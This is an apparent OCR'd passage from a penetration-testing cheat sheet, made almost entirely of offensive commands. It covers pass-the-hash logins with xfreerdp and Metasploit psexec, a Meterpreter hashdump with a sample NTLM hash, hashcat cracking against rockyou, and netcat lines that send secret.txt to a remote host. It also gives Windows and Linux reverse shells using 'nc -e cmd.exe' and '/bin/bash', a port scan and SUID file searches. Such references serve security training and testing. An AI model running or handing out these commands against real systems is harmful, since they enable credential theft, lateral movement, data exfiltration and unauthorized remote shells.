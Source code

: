 or

apt-get install freerdp-x11
xfreerdp /u:offsec /d:win2012 /pth:HASH /v:IP

or

meterpreter > run post/windows/gather/hashdump
Administrator:500:e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c:::
msf > use exploit/windows/smb/psexec
msf exploit(psexec) > set payload windows/meterpreter/reverse_tcp
msf exploit(psexec) > set SMBPass e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c
msf exploit(psexec) > exploit
meterpreter > shell
Hashcat password cracking
hashcat -m 400 -a 0 hash /root/rockyou.txt
Netcat examples
c:> nc -l -p 31337
#nc 192.168.0.10 31337
c:> nc -v -w 30 -p 31337 -l < secret.txt
#nc -v -w 2 192.168.0.10 31337 > secret.txt
Banner grabbing with NC
nc 192.168.0.10 80
GET / HTTP/1.1
Host: 192.168.0.10
User-Agent: Mozilla/4.0
Referrer: www.example.com
<enter>
<enter>
Window reverse shell
c:>nc -Lp 31337 -vv -e cmd.exe
nc 192.168.0.10 31337
c:>nc example.com 80 -e cmd.exe
nc -lp 80

nc -lp 31337 -e /bin/bash
nc 192.168.0.10 31337
nc -vv -r(random) -w(wait) 1 192.168.0.10 -z(i/o error) 1-1000
Find SUID\SGID root files
# Find SUID root files
find / -user root -perm -4000 -print

# Find SGID root files:
find / -group root -perm -2000 -print

# Find SUID and SGID files owned by anyone:
find / -perm -4000 -o -perm -2000 -print

# Find files that are not owned by any user:
find / -nouser -print
